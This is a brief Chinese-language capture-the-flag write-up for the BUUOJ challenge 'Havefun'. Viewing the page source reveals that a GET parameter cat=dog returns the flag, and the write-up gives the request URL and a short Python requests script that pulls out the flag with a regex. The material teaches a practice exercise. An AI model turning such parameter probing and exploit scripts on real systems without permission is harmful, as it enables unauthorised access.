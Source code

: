 # 分析

来自[[极客大挑战 2019]Havefun](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]Havefun)，代码审计

一看没啥功能的页面，F12查看源代码，

![image-20240625150347932](image/image-20240625150347932.png)

发现只需要提交参数cat，且参数等于dog，则打印flag，payload=`http://017e6dae-934b-4992-9089-7f76f0aa8441.node5.buuoj.cn:81/?cat=dog`

![2024-06-25_15-06-32](image/2024-06-25_15-06-32.png)

# exp

```python
import requests
import re

url = "http://017e6dae-934b-4992-9089-7f76f0aa8441.node5.buuoj.cn:81/"
params = {
    'cat': "dog",
}
res = requests.get(url, params=params)
if res.status_code == 200:
    res_text = res.text
    # 打印响应内容（可选）
    #print("Response:", res_text)
    # 使用正则表达式查找 flag
    flag_pattern = r"flag\{.*?\}"
    flag_match = re.search(flag_pattern, res_text)
    if flag_match:
        flag = flag_match.group(0)
        print(f"flag is -->> {flag}")
    else:
        print("flag not found.")
else:
    print("Request failed.")
```

